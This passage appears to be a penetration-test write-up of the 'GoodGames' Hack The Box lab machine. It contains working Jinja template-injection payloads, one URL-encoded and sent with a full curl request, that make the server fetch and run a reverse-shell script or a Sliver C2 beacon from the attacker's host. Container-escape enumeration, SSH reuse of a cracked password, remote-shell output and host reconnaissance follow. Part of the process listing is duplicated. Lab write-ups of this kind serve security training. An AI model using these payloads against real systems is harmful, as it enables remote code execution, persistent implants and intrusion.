%7b%7b%72%65%71%75%65%73%74%2e%61%70%70%6c%69%63%61%74%69%6f%6e%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%5f%5f%69%6d%70%6f%72%74%5f%5f%28%27%6f%73%27%29%2e%70%6f%70%65%6e%28%27%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%36%3a%38%30%30%30%2f%72%65%76%65%72%73%68%65%6c%6c%20%7c%20%62%61%73%68%27%29%2e%72%65%61%64%28%29%7d%7d
```
Curl command utilizing encoded callback
```
curl -i -s -k -X $'POST' \
    -H $'Host: internal-administration.goodgames.htb' -H $'Content-Length: 365' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://internal-administration.goodgames.htb' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://internal-administration.goodgames.htb/settings' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'session=.eJwljktOBDEMBe-SNYvEv3bmMi3bsQVCAql7ZoW4O5HY1avNq5921pX3e3s8r1e-tfNjtUc7oFwhMNyS6xiEBrS8V1-91EthBKuWqIrV4tU5aXiSibp4hjvYqo6aIMAsmgtr4xDuAGO6TRp4IHkcyTi4z-qCpsmzitoOed15_deMPeO-6nx-f-bXFgyYSNOiA6VWHNNFtOY-97moAiyWD2u_fzwQQBA.Y6yIMg.JLNfPtFg1GrUQOZWAzokl8xXdEY' \
    --data-binary $'name=%7b%7b%72%65%71%75%65%73%74%2e%61%70%70%6c%69%63%61%74%69%6f%6e%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%5f%5f%69%6d%70%6f%72%74%5f%5f%28%27%6f%73%27%29%2e%70%6f%70%65%6e%28%27%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%36%3a%38%30%30%30%2f%72%65%76%65%72%73%68%65%6c%6c%20%7c%20%62%61%73%68%27%29%2e%72%65%61%64%28%29%7d%7d' \
    $'http://internal-administration.goodgames.htb/settings'
```
Catch the shell and enjoy!


#### Docker Checks
```
root@3a453ab39d3d:/backend# ./cdk_linux_amd64 evaluate
./cdk_linux_amd64 evaluate
CDK (Container DucK)
CDK Version(GitCommit): 5b28ff76a301fe6cb90baf6bd186923b6fb30276
Zero-dependency cloudnative k8s/docker/serverless penetration toolkit by cdxy & neargle
Find tutorial, configuration and use-case in https://github.com/cdk-team/CDK/

[  Information Gathering - System Info  ]
2022/12/28 22:29:56 current dir: /backend
2022/12/28 22:29:56 current user: root uid: 0 gid: 0 home: /root
2022/12/28 22:29:56 hostname: 3a453ab39d3d
2022/12/28 22:29:56 debian debian 9.6 kernel: 4.19.0-18-amd64
2022/12/28 22:29:56 Setuid files found:
        /usr/bin/chfn
        /usr/bin/chsh
        /usr/bin/gpasswd
        /usr/bin/newgrp
        /usr/bin/passwd
        /bin/mount
        /bin/ping
        /bin/su
        /bin/umount

[  Information Gathering - Services  ]
2022/12/28 22:29:56 service found in process:
        1       0       python3

[  Information Gathering - Commands and Capabilities  ]
2022/12/28 22:29:56 available commands:
        curl,wget,find,ps,python,python3,apt,dpkg,ssh,git,svn,mount,fdisk,gcc,g++,make,base64,python2,python2.7,perl
2022/12/28 22:29:56 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):                                                                                                                                                                          
        CapInh: 00000000a80425fb
        CapPrm: 00000000a80425fb
        CapEff: 00000000a80425fb
        CapBnd: 00000000a80425fb
        CapAmb: 0000000000000000
        Cap decode: 0x00000000a80425fb = CAP_CHOWN,CAP_DAC_OVERRIDE,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_NET_BIND_SERVICE,CAP_NET_RAW,CAP_SYS_CHROOT,CAP_MKNOD,CAP_AUDIT_WRITE,CAP_SETFCAP
[*] Maybe you can exploit the Capabilities below:

[  Information Gathering - Mounts  ]
0:43 / / rw,relatime - overlay overlay rw,lowerdir=/var/lib/docker/overlay2/l/BMOEKLXDA4EFIXZ4O4AP7LYEVQ:/var/lib/docker/overlay2/l/E365MWZN2IXKTIAKIBBWWUOADT:/var/lib/docker/overlay2/l/ZN44ERHF3TPZW7GPHTZDOBQAD5:/var/lib/docker/overlay2/l/BMI22QFRJIU
AWSWNAECLQ35DQS:/var/lib/docker/overlay2/l/6KXJS2GP5OWZY2WMA64DMEN37D:/var/lib/docker/overlay2/l/FE6JM56VMBUSHKLHKZN4M7BBF7:/var/lib/docker/overlay2/l/MSWSF5XCNMHEUPP5YFFRZSUOOO:/var/lib/docker/overlay2/l/3VLCE4GRHDQSBFCRABM7ZL2II6:/var/lib/docker/ove
rlay2/l/G4RUINBGG77H7HZT5VA3U3QNM3:/var/lib/docker/overlay2/l/3UIIMRKYCPEGS4LCPXEJLYRETY:/var/lib/docker/overlay2/l/U54SKFNVA3CXQLYRADDSJ7NRPN:/var/lib/docker/overlay2/l/UIMFGMQODUTR2562B2YJIOUNHL:/var/lib/docker/overlay2/l/HEPVGMWCYIV7JX7KCI6WZ4QYV5,
upperdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/diff,workdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/work
0:46 / /proc rw,nosuid,nodev,noexec,relatime - proc proc rw
0:47 / /dev rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755
0:48 / /dev/pts rw,nosuid,noexec,relatime - devpts devpts rw,gid=5,mode=620,ptmxmode=666
0:49 / /sys ro,nosuid,nodev,noexec,relatime - sysfs sysfs ro
0:50 / /sys/fs/cgroup rw,nosuid,nodev,noexec,relatime - tmpfs tmpfs rw,mode=755
0:26 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/systemd ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,xattr,name=systemd
0:29 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/pids ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,pids
0:30 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/memory ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,memory
0:31 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/cpuset ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,cpuset
0:32 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/freezer ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,freezer
0:33 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/perf_event ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,perf_event
0:34 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/cpu,cpuacct ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,cpu,cpuacct
0:35 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/net_cls,net_prio ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,net_cls,net_prio
0:36 / /sys/fs/cgroup/rdma ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,rdma
0:37 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/blkio ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,blkio
0:38 /docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f /sys/fs/cgroup/devices ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,devices
0:45 / /dev/mqueue rw,nosuid,nodev,noexec,relatime - mqueue mqueue rw
8:1 /home/augustus /home/augustus rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
8:1 /var/lib/docker/containers/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f/resolv.conf /etc/resolv.conf rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
8:1 /var/lib/docker/containers/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f/hostname /etc/hostname rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
8:1 /var/lib/docker/containers/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f/hosts /etc/hosts rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
0:44 / /dev/shm rw,nosuid,nodev,noexec,relatime - tmpfs shm rw,size=65536k
0:46 /bus /proc/bus ro,nosuid,nodev,noexec,relatime - proc proc rw
0:46 /fs /proc/fs ro,nosuid,nodev,noexec,relatime - proc proc rw
0:46 /irq /proc/irq ro,nosuid,nodev,noexec,relatime - proc proc rw
0:46 /sys /proc/sys ro,nosuid,nodev,noexec,relatime - proc proc rw
0:46 /sysrq-trigger /proc/sysrq-trigger ro,nosuid,nodev,noexec,relatime - proc proc rw
0:51 / /proc/acpi ro,relatime - tmpfs tmpfs ro
0:47 /null /proc/kcore rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755
0:47 /null /proc/keys rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755
0:47 /null /proc/timer_list rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755
0:47 /null /proc/sched_debug rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755
0:52 / /sys/firmware ro,relatime - tmpfs tmpfs ro

[  Information Gathering - Net Namespace  ]
        container net namespace isolated.

[  Information Gathering - Sysctl Variables  ]
2022/12/28 22:29:56 net.ipv4.conf.all.route_localnet = 0

[  Information Gathering - DNS-Based Service Discovery  ]
[  Discovery - K8s API Server  ]                                                                                                                                                                                                                           
2022/12/28 22:30:16 checking if api-server allows system:anonymous request.                                                                                                                                                                                
err found while searching local K8s apiserver addr.:                                                                                                                                                                                                       
err: cannot find kubernetes api host in ENV                                                                                                                                                                                                                
        api-server forbids anonymous request.                                                                                                                                                                                                              
        response:                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                                           
[  Discovery - K8s Service Account  ]                                                                                                                                                                                                                      
load K8s service account token error.:                                                                                                                                                                                                                     
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory                                                                                                                                                                        
                                                                                                                                                                                                                                                           
[  Discovery - Cloud Provider Metadata API  ]                                                                                                                                                                                                              
2022/12/28 22:30:17 failed to dial Alibaba Cloud API.
2022/12/28 22:30:19 failed to dial Azure API.
2022/12/28 22:30:20 failed to dial Google Cloud API.
2022/12/28 22:30:21 failed to dial Tencent Cloud API.
2022/12/28 22:30:23 failed to dial OpenStack API.
2022/12/28 22:30:24 failed to dial Amazon Web Services (AWS) API.
2022/12/28 22:30:25 failed to dial ucloud API.

[  Exploit Pre - Kernel Exploits  ]
2022/12/28 22:30:25 refer: https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},[ debian=9 ]{kernel:4.9.0-*},debian=10{kernel:4.19.0-*},fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.

[+] [CVE-2021-27365] linux-iscsi

   Details: https://blog.grimm-co.com/2021/03/new-old-bugs-in-linux-kernel.html
   Exposure: less probable
   Tags: RHEL=8
   Download URL: https://codeload.github.com/grimm-co/NotQuite0DayFriday/zip/trunk
   Comments: CONFIG_SLAB_FREELIST_HARDENED must not be enabled

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64

   Details: https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt
   Exposure: less probable
   Tags: debian=7.7|8.5|9.0,ubuntu=14.04.2|16.04.2|17.04,fedora=22|25,centos=7.3.1611
   Download URL: https://www.qualys.com/2017/06/19/stack-clash/linux_ldso_hwcap_64.c
   Comments: Uses "Stack Clash" technique, works against most SUID-root binaries

```
Attempted auto-exploit
```
root@3a453ab39d3d:/backend# ./cdk_linux_amd64 auto-escape pwd
./cdk_linux_amd64 auto-escape pwd

[Auto Escape - Privileged Container]
2022/12/28 22:35:16 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 00000000a80425fb
        CapPrm: 00000000a80425fb
        CapEff: 00000000a80425fb
        CapBnd: 00000000a80425fb
        CapAmb: 0000000000000000
        Cap decode: 0x00000000a80425fb = CAP_CHOWN,CAP_DAC_OVERRIDE,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_NET_BIND_SERVICE,CAP_NET_RAW,CAP_SYS_CHROOT,CAP_MKNOD,CAP_AUDIT_WRITE,CAP_SETFCAP
[*] Maybe you can exploit the Capabilities below:
2022/12/28 22:35:16 not privileged container.

[Auto Escape - Shared Net Namespace]
2022/12/28 22:35:16 Cannot find vulnerable containerd-shim socket.
2022/12/28 22:35:16 exploit failed.

[Auto Escape - docker.sock]
2022/12/28 22:35:16 err found while stat docker.sock path.:
stat /var/run/docker.sock: no such file or directory
2022/12/28 22:35:16 exploit failed

[Auto Escape - K8s API Server]
2022/12/28 22:35:16 checking if api-server allows system:anonymous request.
err found while searching local K8s apiserver addr.:
err: cannot find kubernetes api host in ENV
        api-server forbids anonymous request.
        response:
load K8s service account token error.:
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory
2022/12/28 22:35:16 exploit failed
2022/12/28 22:35:16 all exploits are finished, auto exploit failed.
```
**Upgrade the shell**
https://zweilosec.github.io/posts/upgrade-linux-shell/

Looking at mounts, augustus' home directory is mapped from the host system.
```
root@3a453ab39d3d:~/.ssh# mount
mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/BMOEKLXDA4EFIXZ4O4AP7LYEVQ:/var/lib/docker/overlay2/l/E365MWZN2IXKTIAKIBBWWUOADT:/var/lib/docker/overlay2/l/ZN44ERHF3TPZW7GPHTZDOBQAD5:/var/lib/docker/overlay2/l/BMI22QFRJIUAWSWNAECLQ35DQS:/var/lib/docker/overlay2/l/6KXJS2GP5OWZY2WMA64DMEN37D:/var/lib/docker/overlay2/l/FE6JM56VMBUSHKLHKZN4M7BBF7:/var/lib/docker/overlay2/l/MSWSF5XCNMHEUPP5YFFRZSUOOO:/var/lib/docker/overlay2/l/3VLCE4GRHDQSBFCRABM7ZL2II6:/var/lib/docker/overlay2/l/G4RUINBGG77H7HZT5VA3U3QNM3:/var/lib/docker/overlay2/l/3UIIMRKYCPEGS4LCPXEJLYRETY:/var/lib/docker/overlay2/l/U54SKFNVA3CXQLYRADDSJ7NRPN:/var/lib/docker/overlay2/l/UIMFGMQODUTR2562B2YJIOUNHL:/var/lib/docker/overlay2/l/HEPVGMWCYIV7JX7KCI6WZ4QYV5,upperdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/diff,workdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/sched_debug type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /sys/firmware type tmpfs (ro,relatime)
root@3a453ab39d3d:~/.ssh# 
```

Find writeable directories on host ('find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;')
```
drwxrwsr-x 1 root staff 4096 Nov 12  2018 /usr/local
drwxrwsr-x 1 root staff 4096 Nov 16  2018 /usr/local/lib
drwxrwsr-x 3 root staff 4096 Nov 16  2018 /usr/local/lib/python3.5
drwxrwsr-x 2 root staff 4096 Nov 16  2018 /usr/local/lib/python3.5/dist-packages
drwxrwsr-x 4 root staff 4096 Nov 16  2018 /usr/local/lib/python2.7
drwxrwsr-x 2 root staff 4096 Nov 16  2018 /usr/local/lib/python2.7/site-packages
drwxrwsr-x 2 root staff 4096 Nov 16  2018 /usr/local/lib/python2.7/dist-packages
drwxrwsr-x 2 root staff 4096 Nov 12  2018 /usr/local/etc
drwxrwsr-x 1 root staff 4096 Feb 18  2022 /usr/local/share
drwxrwsr-x 1 root staff 4096 Feb 18  2022 /usr/local/share/man
drwxrwsr-x 2 root staff 4096 Nov 16  2018 /usr/local/share/fonts
drwxrwsr-x 2 root staff 4096 Nov 16  2018 /usr/local/share/ca-certificates
drwxrwsr-x 2 root staff 4096 Nov 12  2018 /usr/local/games
drwxrwsr-x 2 root staff 4096 Nov 12  2018 /usr/local/src
drwxrwsr-x 2 root staff 4096 Nov 12  2018 /usr/local/sbin
drwxrwsr-x 1 root staff 4096 Nov 16  2018 /usr/local/include
drwxrwsr-x 1 root staff 4096 Nov  5  2021 /usr/local/bin
drwxrwsr-x 2 root staff 4096 Oct 20  2018 /var/local
drwxrwsr-x 2 root mail 4096 Nov 12  2018 /var/mail
drwxrwxrwt 2 root root 4096 Oct 20  2018 /var/tmp
drwxrwxrwt 2 root root 40 Jan  4 13:52 /dev/shm
drwxrwxrwt 2 root root 40 Jan  4 13:52 /dev/mqueue
drwxrwxrwt 2 root root 40 Jan  4 13:52 /proc/acpi
drwxrwxrwt 2 root root 4096 Nov 12  2018 /run/lock
drwxrwxrwt 2 root root 40 Jan  4 13:52 /sys/firmware
drwxrwxrwt 1 root root 4096 Nov  5  2021 /tmp
```

# Command and Control

A Sliver beacon was created and hosted. The beacon was then obtained and executed by exploiting the SSTI call as follows:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.10.14.5:8081/APPROPRIATE_CYMBAL -O bacon; chmod +x ./bacon; ./bacon &').read()}}
```

## OG host beaconed
Further enumeration of the host revealed there was a listening port [22] between the docker image and host. It was possible SSH in with host-mounted user directories account, 'augustus', using the previously cracked password 'superadministrator'.

Once that was done, for easier enumeration and control, the box was beaconed with a sliver implant.



## OG Host Recon
```
sliver (REAL_DYNAMO) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 5578
```

## System Enumeration

> uname -a
 
'''
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64 GNU/Linux
'''

> cat /proc/version
 
```
Linux version 4.19.0-18-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.208-1 (2021-09-29)
```

> cat /etc/issue
 
```
Debian GNU/Linux 11 \n \l
```

> lscpu

```
Architecture:                    x86_64
CPU op-mode(s):                  32-bit, 64-bit
Byte Order:                      Little Endian
Address sizes:                   43 bits physical, 48 bits virtual
CPU(s):                          2
On-line CPU(s) list:             0,1
Thread(s) per core:              1
Core(s) per socket:              1
Socket(s):                       2
NUMA node(s):                    1
Vendor ID:                       GenuineIntel
CPU family:                      6
Model:                           85
Model name:                      Intel(R) Xeon(R) Gold 5218 CPU @ 2.30GHz
Stepping:                        7
CPU MHz:                         2294.609
BogoMIPS:                        4589.21
Hypervisor vendor:               VMware
Virtualization type:             full
L1d cache:                       64 KiB
L1i cache:                       64 KiB
L2 cache:                        2 MiB
L3 cache:                        44 MiB
NUMA node0 CPU(s):               0,1
Vulnerability Itlb multihit:     KVM: Vulnerable
Vulnerability L1tf:              Not affected
Vulnerability Mds:               Not affected
Vulnerability Meltdown:          Not affected
Vulnerability Spec store bypass: Mitigation; Speculative Store Bypass disabled v
                                 ia prctl and seccomp
Vulnerability Spectre v1:        Mitigation; usercopy/swapgs barriers and __user
                                  pointer sanitization
Vulnerability Spectre v2:        Mitigation; Enhanced IBRS, IBPB conditional, RS
                                 B filling
Vulnerability Srbds:             Not affected
Vulnerability Tsx async abort:   Not affected
Flags:                           fpu vme de pse tsc msr pae mce cx8 apic sep mtr
                                 r pge mca cmov pat pse36 clflush mmx fxsr sse s
                                 se2 ss syscall nx pdpe1gb rdtscp lm constant_ts
                                 c arch_perfmon nopl xtopology tsc_reliable nons
                                 top_tsc cpuid pni pclmulqdq ssse3 fma cx16 pcid
                                  sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline
                                 _timer aes xsave avx f16c rdrand hypervisor lah
                                 f_lm abm 3dnowprefetch cpuid_fault invpcid_sing
                                 le ssbd ibrs ibpb stibp ibrs_enhanced fsgsbase 
                                 tsc_adjust bmi1 avx2 smep bmi2 invpcid avx512f 
                                 avx512dq rdseed adx smap clflushopt clwb avx512
                                 cd avx512bw avx512vl xsaveopt xsavec xsaves ara
                                 t pku ospke md_clear flush_l1d arch_capabilitie
                                 s
```

> ps aux | grep root

```
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.2 165256  9988 ?        Ss   Jan09   0:04 /sbin/init
root         2  0.0  0.0      0     0 ?        S    Jan09   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   Jan09   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   Jan09   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   Jan09   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    Jan09   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    Jan09   0:12 [rcu_sched]
root        11  0.0  0.0      0     0 ?        I    Jan09   0:00 [rcu_bh]
root        12  0.0  0.0      0     0 ?        S    Jan09   0:00 [migration/0]
root        14  0.0  0.0      0     0 ?        S    Jan09   0:00 [cpuhp/0]
root        15  0.0  0.0      0     0 ?        S    Jan09   0:00 [cpuhp/1]
root        16  0.0  0.0      0     0 ?        S    Jan09   0:00 [migration/1]
root        17  0.0  0.0      0     0 ?        S    Jan09   0:00 [ksoftirqd/1]
root        19  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kworker/1:0H-kblockd]
root        20  0.0  0.0      0     0 ?        S    Jan09   0:00 [kdevtmpfs]
root        21  0.0  0.0      0     0 ?        I<   Jan09   0:00 [netns]
root        22  0.0  0.0      0     0 ?        S    Jan09   0:00 [kauditd]
root        23  0.0  0.0      0     0 ?        S    Jan09   0:00 [khungtaskd]
root        24  0.0  0.0      0     0 ?        S    Jan09   0:00 [oom_reaper]
root        25  0.0  0.0      0     0 ?        I<   Jan09   0:00 [writeback]
root        26  0.0  0.0      0     0 ?        S    Jan09   0:00 [kcompactd0]
root        27  0.0  0.0      0     0 ?        SN   Jan09   0:00 [ksmd]
root        28  0.0  0.0      0     0 ?        SN   Jan09   0:00 [khugepaged]
root        29  0.0  0.0      0     0 ?        I<   Jan09   0:00 [crypto]
root        30  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kintegrityd]
root        31  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kblockd]
root        32  0.0  0.0      0     0 ?        I<   Jan09   0:00 [edac-poller]
root        33  0.0  0.0      0     0 ?        I<   Jan09   0:00 [devfreq_wq]
root        34  0.0  0.0      0     0 ?        S    Jan09   0:00 [watchdogd]
root        36  0.0  0.0      0     0 ?        S    Jan09   0:00 [kswapd0]
root        54  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kthrotld]
root        55  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/24-pciehp]
root        56  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/25-pciehp]
root        57  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/26-pciehp]
root        58  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/27-pciehp]
root        59  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/28-pciehp]
root        60  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/29-pciehp]
root        61  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/30-pciehp]
root        62  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/31-pciehp]
root        63  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/32-pciehp]
root        64  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/33-pciehp]
root        65  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/34-pciehp]
root        58  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/27-pciehp]
root        59  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/28-pciehp]
root        60  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/29-pciehp]
root        61  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/30-pciehp]
root        62  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/31-pciehp]
root        63  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/32-pciehp]
root        64  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/33-pciehp]
root        66  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/35-pciehp]
root        67  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/36-pciehp]
root        68  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/37-pciehp]
root        69  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/38-pciehp]
root        70  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/39-pciehp]
root        71  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/40-pciehp]
root        72  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/41-pciehp]
root        73  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/42-pciehp]
root        74  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/43-pciehp]
